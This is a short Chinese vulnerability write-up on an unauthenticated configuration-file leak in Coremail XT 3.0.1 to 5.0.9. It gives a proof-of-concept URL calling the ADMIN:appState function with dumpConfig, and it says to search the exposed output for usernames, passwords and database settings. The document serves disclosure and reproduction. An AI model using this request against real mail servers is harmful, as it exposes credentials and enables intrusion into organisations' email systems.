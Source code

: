 Coremail配置文件信息泄漏
一、漏洞简介
Coremail论客邮件系统开始研发于1999年，是中国第一套中文邮件系统，目前在中国大陆地区拥有超过10亿终端用户，是网易、中华网等运营商至今一直使用的邮件系统，也是政府、事业单位、科教、企业等机构广泛使用的邮件系统。
2019年6月，网上流传出Coremail论客邮件系统配置文件泄露的漏洞，该漏洞无需认证即可获取邮件系统的配置文件内容。
Coremail官网发布的漏洞公告：《关于Coremail邮件系统安全问题的情况说明》，http://www.coremail.cn/About/news_x/article_id/32641.htm
二、漏洞影响
Coremail XT 3.0.1至XT 5.0.9版本，XT 5.0.9a及以上版本已修复该漏洞
三、复现过程
POC
http://xx/mailsms/s?func=ADMIN:appState&dumpConfig=/
输入Poc访问漏洞页面
发现信息泄露页面内搜索user，password，database等关键字
